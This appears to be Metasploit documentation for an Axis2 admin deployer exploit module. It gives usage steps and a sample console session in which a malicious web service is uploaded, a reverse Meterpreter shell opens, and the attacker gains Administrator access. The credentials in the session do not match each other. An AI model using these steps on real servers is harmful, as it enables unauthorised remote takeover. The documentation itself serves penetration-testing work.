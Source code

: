 ## Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

## Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Scenarios

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 
[+] http://10.10.155.37:8080/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
[*] Successfully uploaded
[*] Polling to see if the service is ready
[*] Sending stage (30355 bytes) to 10.10.155.37
[*] Meterpreter session 3 opened (10.10.155.39:4444 -> 10.10.155.37:1750) at 2017-03-26 23:33:19 -0500

[*] NOTE: You will need to delete the web service that was uploaded.

[*] Using meterpreter:
[*] rm "webapps/axis2/WEB-INF/services/mdLFvgMv.jar"

[*] Using the shell:
[*] cd  "webapps/axis2/WEB-INF/services"
[*] del mdLFvgMv.jar


meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
